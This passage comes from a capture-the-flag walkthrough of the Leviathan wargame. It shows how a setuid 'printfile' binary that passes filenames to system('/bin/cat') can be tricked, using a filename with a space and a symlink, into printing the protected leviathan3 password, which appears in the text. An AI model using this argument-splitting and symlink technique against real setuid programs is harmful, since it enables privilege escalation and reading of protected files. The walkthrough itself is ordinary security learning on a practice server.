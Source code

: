 And if we look back into the previous `ls -la` output, we can see that __printfile__ is owned by __leviathan3__. So `access()` will call the process with __leviathan3's__ privileges.

Looking into the code we also see that __/bin/cat__ is being called on the file to output the contents. While `access()` uses the full path's filename, __/bin/cat__ uses just the first part of the filename. (This is due to how the " " are set up in the program) What we can do here is try to add a space to a filename, and if we are correct, __/bin/cat__ will read the file as 2 separate files.

```console
leviathan2@melinda:/tmp/jhalon$touch pass\ file.txt
leviathan2@melinda:/tmp/jhalon$ ltrace ~/printfile "pass file.txt"
__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600 <unfinished ...>
access("pass file.txt", 4)                       = 0
snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22
system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++
```

I was right! As you can see, __/bin/cat__ calls "__pass file.txt__" as two separate files, "__pass__" and "__file.txt__". We can actually exploit this! Let’s go ahead and create a [symbolic link](https://en.wikipedia.org/wiki/Symbolic_link) for the "__pass__" part in "__pass file.txt__", and link it to __/etc/leviathan_pass/leviathan3__.

```console
leviathan2@melinda:/tmp/jhalon$ ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass
leviathan2@melinda:/tmp/jhalon$ ls -la
total 7864
drwxrwxr-x 2 leviathan2 leviathan2    4096 Sep 10 04:55 .
drwxrwx-wt 1 root       root       8036352 Sep 10 04:55 ..
lrwxrwxrwx 1 leviathan2 leviathan2      30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2       0 Sep 10 04:54 pass file.txt
leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"
Ahdiemoo1j
/bin/cat: file.txt: No such file or directory
```

And bingo was his name, OH! We got the password for leviathan3! Go do a victory lap around the house, you deserved it!

### Level 3 -> 4:
This level was a bit easier than the previous one. Just use what you learned from the previous levels to your advantage. Let's begin by seeing what we have at our disposal.

```console
leviathan3@melinda:~$ ls -la
total 32
drwxr-xr-x   2 root       root       4096 Mar 21  2015 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan4 leviathan3 9962 Mar 21  2015 level3
```
